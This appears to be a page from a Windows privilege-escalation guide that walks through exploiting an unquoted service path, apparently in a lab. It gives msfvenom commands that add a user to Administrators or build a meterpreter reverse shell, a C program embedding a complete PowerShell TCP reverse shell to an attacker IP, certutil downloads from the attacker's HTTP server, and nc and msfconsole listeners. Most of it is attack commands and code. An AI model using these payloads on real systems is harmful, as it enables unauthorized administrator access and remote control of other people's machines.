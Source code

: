 ### EXPLOITING INSECURE SERVICE WITH METASPLOIT

1.  let’s create a binary to Add a User to the Administrators with msfvenom.  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > common.exe`  
    
    ![](../../../../img/Windows-Environment/95.png)

2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/common.exe common.exe`

    ![](../../../../img/Windows-Environment/96.png)

3.  Move the binary to the path C:\\Program Files\\Unquoted Path Service  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`

    ![](../../../../img/Windows-Environment/97.png)

4.  Now run `net start unquotedsvc` on the target to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/98.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`

### GENERATING REVERSE SHELL WITH MSFVENOM

1.  let’s create a reverse shell binary with msfvenom.  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/99.png)
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/unquotedpathservice.exe unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/100.png)
    
3.  Copy your reverse shell executable to path and rename it to match the first valid segment of the service unquoted path:  
    `copy C:\Temp\unquotedpathservice.exe "C:\Program Files\Unquoted Path Service\Common.exe"`  
    
    ![](../../../../img/Windows-Environment/101.png)
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/102.png)

    **NOTE:** Alternatively, we can start a listener using nc:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
5.  Now run `net start unquotedsvc` on the target Machine to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/103.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`
    

### CREATING AN CUSTOMIZED EXPLOIT

1.  Compile the following custom executable directly on your attacker machine by copying the code into a text editor and saving it as exploit.c.
    
    ```C
    #include <windows.h>
    #include <stdio.h>
    
    int main(){ 
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('[IP-ADRESS]',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0; 
    }
    ```
    
    ![](../../../../img/Windows-Environment/104.png)
    
2.  Our exploit.c file is now ready to compile. We can compile it directly on our attacker machine using mingw-w64 with the following command:  
    `x86_64-w64-mingw32-gcc exploit.c -o common.exe`  
    
    ![](../../../../img/Windows-Environment/105.png)

    **NOTE:** If you don't have mingw-w64 installed, you can install it with:  
    `apt install mingw-w64`
    
3.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/common.exe common.exe`  
    
    ![](../../../../img/Windows-Environment/106.png)
    
4.  Move the binary to the path C:\\Program Files\\Unquoted Path Service  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`  
    
    ![](../../../../img/Windows-Environment/107.png)
    
5.  Start your listener on the attacking machine and run `net start unquotedsvc` on the target Machine to execute the exploit.  
    `sudo rlwrap -cAr nc -lvnp 1337`  
    
    ![](../../../../img/Windows-Environment/108.png)
    
    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0 /f`